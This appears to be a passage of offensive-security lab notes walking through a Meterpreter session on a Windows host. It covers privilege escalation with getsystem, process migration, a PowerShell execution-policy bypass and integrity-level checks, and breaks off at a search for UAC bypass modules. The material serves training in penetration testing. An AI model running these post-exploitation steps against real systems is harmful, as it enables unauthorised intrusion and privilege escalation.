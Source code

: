 ##### Setup
Connect to bind shell on target, download and execute met.exe, and priv esc

```
meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
```

Migrate to OneDrive process of offsec user

```
meterpreter > migrate 8044
[*] Migrating from 9020 to 8044...
[*] Migration completed successfully.

meterpreter > getuid
Server username: ITWK01\offsec
```

UAC preventing administrative actions. 

Confirming current process has the _Medium_ integrity level

Spawn shell
```
meterpreter > shell
Process 6436 created.
```

EP bypass
```
C:\Windows\system32> powershell -ep bypass
powershell -ep bypass
```

Import _NTObjectManager_
```
PS C:\Windows\system32> Import-Module NtObjectManager
Import-Module NtObjectManager
```

Use _Get-NtTokenIntegrityLevel_ to display integrity level of current process
```hlt:3
PS C:\Windows\system32> Get-NtTokenIntegrityLevel
Get-NtTokenIntegrityLevel
Medium
```

Background active channel and session

```
PS C:\Windows\system32> ^Z
Background channel 1? [y/N]  y

meterpreter > bg
[*] Backgrounding session 9...
```

Search for UAC bypass modules
